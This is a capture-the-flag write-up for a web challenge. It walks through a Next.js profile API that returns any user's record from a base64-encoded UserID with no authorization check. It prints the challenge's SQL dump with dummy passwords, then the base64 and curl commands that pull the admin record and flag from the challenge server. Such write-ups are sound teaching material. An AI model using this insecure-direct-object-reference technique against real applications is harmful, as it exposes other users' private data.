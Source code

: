 ![alt text](image.png)

What you need to solve :
- Basic concept js
- Basic concept of encoding
- Basic concept of Websites

---

Starting off the challenge we were given the full source code of the challenge!

```sh
❯ ls
app  docker-compose.yml  Dockerfile  idors.sql  jsconfig.json  package.json  postcss.config.mjs  public  start.sh
```

from the given files whats weird is the sql is called `idors.sql` which hugely hints that we need to find an idor.

```sh
❯ cat idors.sql
-- phpMyAdmin SQL Dump
-- version 5.2.1
-- https://www.phpmyadmin.net/
--
-- Host: 127.0.0.1
-- Generation Time: May 30, 2025 at 09:10 AM
-- Server version: 10.4.32-MariaDB
-- PHP Version: 8.0.30

SET SQL_MODE = "NO_AUTO_VALUE_ON_ZERO";
START TRANSACTION;
SET time_zone = "+00:00";


/*!40101 SET @OLD_CHARACTER_SET_CLIENT=@@CHARACTER_SET_CLIENT */;
/*!40101 SET @OLD_CHARACTER_SET_RESULTS=@@CHARACTER_SET_RESULTS */;
/*!40101 SET @OLD_COLLATION_CONNECTION=@@COLLATION_CONNECTION */;
/*!40101 SET NAMES utf8mb4 */;

--
-- Database: `idor`
--

-- --------------------------------------------------------

--
-- Table structure for table `friends`
--

CREATE TABLE `friends` (
  `FriendshipID` int(11) DEFAULT NULL,
  `UserID1` varchar(50) DEFAULT NULL,
  `UserID2` varchar(50) DEFAULT NULL
) ENGINE=InnoDB DEFAULT CHARSET=utf8mb4 COLLATE=utf8mb4_general_ci;

--
-- Dumping data for table `friends`
--

INSERT INTO `friends` (`FriendshipID`, `UserID1`, `UserID2`) VALUES
(1, '9da586a5-06c8-4201-be29-c5aca6187523', '3d4da6cc-64eb-4b54-b979-40f0b5de4d4e'),
(2, '9da586a5-06c8-4201-be29-c5aca6187523', 'f5b3f205-169a-471d-8bb3-7ff20f5f725c'),
(3, '9da586a5-06c8-4201-be29-c5aca6187523', '2f684d22-d583-4c2b-921b-cee294f8bf2c');

-- --------------------------------------------------------

--
-- Table structure for table `msuser`
--

CREATE TABLE `msuser` (
  `UserID` varchar(50) NOT NULL,
  `Username` varchar(50) DEFAULT NULL,
  `Email` varchar(50) DEFAULT NULL,
  `Password` varchar(50) DEFAULT NULL,
  `Description` varchar(50) DEFAULT NULL
) ENGINE=InnoDB DEFAULT CHARSET=utf8mb4 COLLATE=utf8mb4_general_ci;

--
-- Dumping data for table `msuser`
--

INSERT INTO `msuser` (`UserID`, `Username`, `Email`, `Password`, `Description`) VALUES
('2f684d22-d583-4c2b-921b-cee294f8bf2c', 'John', 'john@gmail.com', 'John123#', ''),
('3d4da6cc-64eb-4b54-b979-40f0b5de4d4e', 'Admin', 'admin@gmail.com', 'youcannotguessthis123', 'CSC{not_the_real_flag_dont_cheat}'),
('9da586a5-06c8-4201-be29-c5aca6187523', 'hiro', 'hiro@gmail.com', 'hiro123', ''),
('f5b3f205-169a-471d-8bb3-7ff20f5f725c', 'Jean', 'jean@gmail.com', 'jean123#', '');

--
-- Indexes for dumped tables
--

--
-- Indexes for table `friends`
--
ALTER TABLE `friends`
  ADD KEY `UserID1` (`UserID1`),
  ADD KEY `UserID2` (`UserID2`);

--
-- Indexes for table `msuser`
--
ALTER TABLE `msuser`
  ADD PRIMARY KEY (`UserID`),
  ADD UNIQUE KEY `unique_email` (`Email`);

--
-- Constraints for dumped tables
--

--
-- Constraints for table `friends`
--
ALTER TABLE `friends`
  ADD CONSTRAINT `friends_ibfk_1` FOREIGN KEY (`UserID1`) REFERENCES `msuser` (`UserID`) ON DELETE CASCADE,
  ADD CONSTRAINT `friends_ibfk_2` FOREIGN KEY (`UserID2`) REFERENCES `msuser` (`UserID`) ON DELETE CASCADE;
COMMIT;

/*!40101 SET CHARACTER_SET_CLIENT=@OLD_CHARACTER_SET_CLIENT */;
/*!40101 SET CHARACTER_SET_RESULTS=@OLD_CHARACTER_SET_RESULTS */;
/*!40101 SET COLLATION_CONNECTION=@OLD_COLLATION_CONNECTION */;
```

From the information in `idors.sql` we can see that the id for the admin is `3d4da6cc-64eb-4b54-b979-40f0b5de4d4e` we shall keep that in mind until we find something.

![alt text](image-2.png)

Playing around with the website i saw there was a profile button, opening it the `??` box is very suspicious and i think thats where the flag actually is!

We can try to find profile logic

```js
❯ ls
app  docker-compose.yml  Dockerfile  idors.sql  jsconfig.json  package.json  postcss.config.mjs  public  start.sh
❯ ls public
assets  file.svg  globe.svg  next.svg  tung.jpg  vercel.svg  window.svg
❯ ls app
api  components  favicon.ico  globals.css  layout.jsx  lib  login  page.jsx  register
❯ ls app/api
fetchfriends  fetchuser  profile  submituser
❯ ls app/api/profile
route.js
❯ cat app/api/profile/route.js
import { query } from "@/app/lib/db";
import { NextResponse } from "next/server";
export async function POST(req) {
  try {
    const encodedString = await req.text();
    const decodedString = Buffer.from(encodedString, 'base64').toString('utf-8');
    const { UserID } = JSON.parse(decodedString);
    const response = await query(
      'SELECT Username, Email, Description FROM msuser WHERE UserID = ?',
      [UserID]
    );
    console.log('Query response:', response);
    return NextResponse.json({
      success: true,
      data: response
    });
  } catch (e) {
    console.error('SQL Error:', e);
    return NextResponse.json({
      success: false,
      message: e.message || 'Terjadi kesalahan server'
    }, { status: 500 });
  }
}
```

So the main function simply takes UserID from json data from a base64 string then use it to query the SQL.
This is vulnerable to an IDOR!
Because we know the id of the admin we could make the server give us the admin data!

```sh
❯ echo -n '{"UserID": "3d4da6cc-64eb-4b54-b979-40f0b5de4d4e"}' | base64
eyJVc2VySUQiOiAiM2Q0ZGE2Y2MtNjRlYi00YjU0LWI5NzktNDBmMGI1ZGU0ZDRlIn0=
❯ curl -X POST http://46.202.163.245:3000/api/profile -H "Content-Type: text/plain" --data 'eyJVc2VySUQiOiAiM2Q0ZGE2Y2MtNjRlYi00YjU0LWI5NzktNDBmMGI1ZGU0ZDRlIn0='
{"success":true,"data":[{"Username":"Admin","Email":"admin@gmail.com","Description":"CSC{i_keep_them_in_my_base64ment}"}]}
```

![alt text](image-1.png)

Flag : CSC{i_keep_them_in_my_base64ment}